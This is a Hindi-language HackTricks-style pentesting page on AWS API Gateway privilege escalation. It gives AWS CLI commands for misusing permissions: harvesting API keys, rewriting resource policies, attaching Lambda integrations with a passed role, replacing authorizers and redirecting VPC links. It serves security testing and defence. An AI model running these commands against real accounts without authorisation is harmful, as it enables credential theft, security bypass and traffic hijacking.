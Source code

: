# AWS - Apigateway Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Apigateway

अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-api-gateway-enum.md
{{#endref}}

### `apigateway:POST`

इस अनुमति के साथ आप कॉन्फ़िगर की गई APIs के API कुंजी उत्पन्न कर सकते हैं (प्रति क्षेत्र)।
```bash
aws --region <region> apigateway create-api-key
```
**संभावित प्रभाव:** आप इस तकनीक से प्रिवेस्क नहीं कर सकते लेकिन आपको संवेदनशील जानकारी तक पहुंच मिल सकती है।

### `apigateway:GET`

इस अनुमति के साथ आप कॉन्फ़िगर की गई APIs के उत्पन्न API कुंजी प्राप्त कर सकते हैं (प्रति क्षेत्र)।
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**संभावित प्रभाव:** आप इस तकनीक से प्रिविलेज़ एस्केलेशन नहीं कर सकते लेकिन आपको संवेदनशील जानकारी तक पहुँच मिल सकती है।

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

इन अनुमतियों के साथ, एक API की संसाधन नीति को संशोधित करना संभव है ताकि आप इसे कॉल करने और API गेटवे के संभावित पहुँच का दुरुपयोग करने के लिए खुद को पहुँच दे सकें (जैसे कि एक कमजोर लैम्ब्डा को सक्रिय करना)।
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
**संभावित प्रभाव:** आप आमतौर पर इस तकनीक के साथ सीधे प्रिवेस्क नहीं कर पाएंगे, लेकिन आपको संवेदनशील जानकारी तक पहुंच मिल सकती है।

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

> [!NOTE]
> परीक्षण की आवश्यकता है

एक हमलावर जिसके पास `apigateway:PutIntegration`, `apigateway:CreateDeployment`, और `iam:PassRole` की अनुमति है, **एक मौजूदा API Gateway REST API में एक नया इंटीग्रेशन जोड़ सकता है जिसमें एक IAM भूमिका संलग्न Lambda फ़ंक्शन है**। हमलावर फिर **Lambda फ़ंक्शन को मनमाने कोड को निष्पादित करने के लिए ट्रिगर कर सकता है और संभावित रूप से IAM भूमिका से संबंधित संसाधनों तक पहुंच प्राप्त कर सकता है**।
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: Lambda फ़ंक्शन के IAM भूमिका से जुड़े संसाधनों तक पहुँच।

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

> [!NOTE]
> परीक्षण की आवश्यकता है

एक हमलावर जिसके पास `apigateway:UpdateAuthorizer` और `apigateway:CreateDeployment` की अनुमति है, वह **एक मौजूदा API गेटवे ऑथराइज़र को संशोधित कर सकता है** ताकि सुरक्षा जांचों को बायपास किया जा सके या API अनुरोध किए जाने पर मनमाने कोड को निष्पादित किया जा सके।
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: सुरक्षा जांचों को बायपास करना, API संसाधनों तक अनधिकृत पहुंच।

### `apigateway:UpdateVpcLink`

> [!NOTE]
> परीक्षण की आवश्यकता है

`apigateway:UpdateVpcLink` अनुमति वाला एक हमलावर **एक मौजूदा VPC लिंक को एक अलग नेटवर्क लोड बैलेंसर की ओर मोड़ सकता है, संभावित रूप से निजी API ट्रैफ़िक को अनधिकृत या दुर्भावनापूर्ण संसाधनों की ओर पुनर्निर्देशित कर सकता है**।
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**संभावित प्रभाव**: निजी API संसाधनों तक अनधिकृत पहुंच, API ट्रैफ़िक का अवरोध या बाधा। 

{{#include ../../../banners/hacktricks-training.md}}

